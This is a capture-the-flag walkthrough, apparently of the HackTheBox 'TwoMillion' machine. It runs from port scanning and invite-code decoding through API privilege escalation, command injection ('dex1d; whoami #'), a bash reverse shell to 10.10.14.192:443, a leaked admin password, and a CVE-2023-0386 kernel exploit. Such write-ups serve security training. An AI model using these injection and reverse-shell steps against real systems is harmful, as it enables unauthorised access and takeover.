


Let's scan IP `10.10.11.221`
```bash
sudo nmap -v -sC -sV 10.10.11.221 -oN ../nmap-scan
```
```bash
Nmap scan report for 10.10.11.221
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Let's go to the site


There is a page on the site where you need to enter an invite code to create an account. On this page there is a `JavaScript` file:
```JavaScript
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
```
This code is obfuscated `JavaScript`, which after unpacking via `eval()` makes HTTP requests to the API. I unpacked it using this [site](https://matthewfl.com/unPacker.html). `POST` requests are sent to the endpoint
```Endpoint
/api/v1/invite/how/to/generate
```
Let's try to navigate to it


Since a `GET` request was sent, the server did not accept it. Let's change the request method


We see this response:
```Response
"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"
```
The message is encoded `ROT13`. Decode it


```Encrypted
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate
```


Get the encoded invitation code
```InviteCode
VVA2MkstNjZLMEstQTE1WlAtNVZFSlA=
```
Most likely it is `BASE64`. Decode it


```InviteCode
UP62K-66K0K-A15ZP-5VEJP
```


All navigation buttons are inactive except `Access`. Let's go to this page and click `Connection Pack`. In the intercepted request we see the endpoint:


```Endpoint
/api/v1/user/vpn/generate
```
Let's try to follow the path of this `API`


We see that `admin` has 3 endpoints. Let's try to grant ourselves admin rights through the endpoint `/api/v1/admin/settings/update`, which uses the `PUT` method.


Writes `Invalid content type`. Most likely, `JSON` is needed here, that is, you need to add the line `Content-Type: application/json` to the request


Now the `email` parameter is missing. Let's add it



Now the `is_admin` parameter is missing. Add it too


Now let's check if admin rights have appeared



Now we can use the remaining endpoint `/api/v1/admin/vpn/generate`


We still adjust the request so that it works


Let's try to execute the command `whoami`:
```bash
dex1d; whoami #
```


Let's try to implement `Reverse Shell`
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.192/443 0>&1'
```


The `.env` file contains the admin password. Let's try to connect to it via SSH


```Password
SuperDuperPass123
```


Let's check the `var` directory


The letter talks about the need to fix the OS, and also mentions the `OverlayFS / FUSE CVE`. Let's check the OS and kernel version
```bash
uname -a
cat /etc/lsb-release
```


If you google it, it says `CVE-2023-0386`


Let's use [PoC](https://github.com/puckiestyle/CVE-2023-0386)
It's not possible to simply clone the repository on the machine. So I had to download it and send it using `SCP`
```bash
scp CVE-2023-0386-main.zip admin@10.10.11.221:/tmp
```
Next, follow the instructions `PoC`


